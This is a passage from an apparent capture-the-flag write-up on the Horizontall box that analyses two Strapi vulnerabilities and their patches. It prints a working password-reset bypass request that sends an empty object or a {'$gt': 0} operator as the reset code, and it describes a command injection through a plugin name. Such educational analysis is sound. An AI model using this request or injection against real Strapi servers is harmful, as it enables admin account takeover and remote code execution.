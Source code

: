     POST /admin/auth/reset-password HTTP/1.1
    Host: api-prod.horizontall.htb
    User-Agent: python-requests/2.22.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Length: 68
    Content-Type: application/json
    
    {"code": {}, "password": "aaaaaa", "passwordConfirmation": "aaaaaa"}
    

So the exploit is in sending an empty dictionary where the reset code should
be.

At least for Horizontall, the first two requests were not needed at all. I
reset the box, and just replayed this request from repeater:

![image-20220202161658349](https://0xdfimages.gitlab.io/img/image-20220202161658349.png)

It worked, and I could login.

#### The Patch

The pull request to fix this issue in strapi is
[here](https://github.com/strapi/strapi/pull/4443). Viewing the changed files,
it only changes one line in each of two files:

![image-20220202161924658](https://0xdfimages.gitlab.io/img/image-20220202161924658.png)

In both endpoints, it’s taking the code parameter and wrapping it in ``${ }``,
which forces the object to be a string. Without that wrapping, the client is
able to abuse the query with something like `{"$gt": 0}` or even a `{}`, which
returns a match.

### CVE-2019-19609

This remote code execution vulnerability is a command injection. Looking at
the [pull request](https://github.com/strapi/strapi/pull/4636) that fixes it,
there are two added checks, one in `installPlugin` and the other in
`uninstallPlugin`, both the same code:

![image-20220202173440715](https://0xdfimages.gitlab.io/img/image-20220202173440715.png)

Before the addition, it would get the plugin name from the request body, and
then run `npm run strapi -- install [plugin name]`. This has command injection
written all over it. The solution is to make sure that the only characters in
the plugin name are alphanumeric or dash and underscore. Without other
characters, it’s impossible to command inject.

[](/2022/02/05/htb-horizontall.html)

